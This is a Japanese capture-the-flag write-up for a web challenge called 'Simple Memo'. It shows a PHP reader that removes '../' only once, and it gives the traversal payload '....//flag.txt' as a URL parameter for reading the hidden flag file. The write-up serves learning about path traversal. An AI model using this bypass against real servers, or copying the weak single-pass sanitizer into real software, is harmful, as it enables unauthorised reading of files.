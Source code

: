 # Simple Memo:Web:pts
問題ページ：[https://simple.wanictf.org/](https://simple.wanictf.org/)  
flag.txtというファイルに私の秘密を隠したが、 完璧にサニタイズしたため辿りつける訳がない。  
(Hint) ディレクトリトラバーサルという脆弱性です。  
何がサニタイズされているかを知るためにソースコード(reader.php)を参考にしてみてください。  
(注意)  
simple_memo.zipは問題を解くために必須の情報ではなく、docker-composeを利用してローカルで問題環境を再現するためのものです。  
興味のある方は利用してみてください。  
[reader.php](reader.php)　　　　[simple_memo.zip](simple_memo.zip)  

# Solution
URLにアクセスするとメモが見える。  
The シンプル メモ張  
[site.png](site/site.png)  
メモは以下のようになっている。  
[memos](site/memos)  
flag.txtにファイルが隠されているようだ。  
配られたreader.phpを見ると以下のようであった。  
```php:reader.php
<?php
function reader($file) {
  $memo_dir = "./memos/";

  // sanitized
  $file = str_replace('../', '', $file);
  
  $filename = $memo_dir . $file;
  $memo_exist = file_exists($filename);
  if ($memo_exist) {
    $content = file_get_contents($filename);
  } else {
    $content = "No content.";
  }
  return $content;
}
?>
```
`../`を削除しているのみなので、`....//`は`../`となる。  
つまり`....//flag.txt`を見てやればよい。  
`https://simple.wanictf.org/index.php?file=....//flag.txt`を見るとflagが表示された。  
flag  
[flag.png](site/flag.png)  

## FLAG{y0u_c4n_get_hi5_5ecret_fi1e}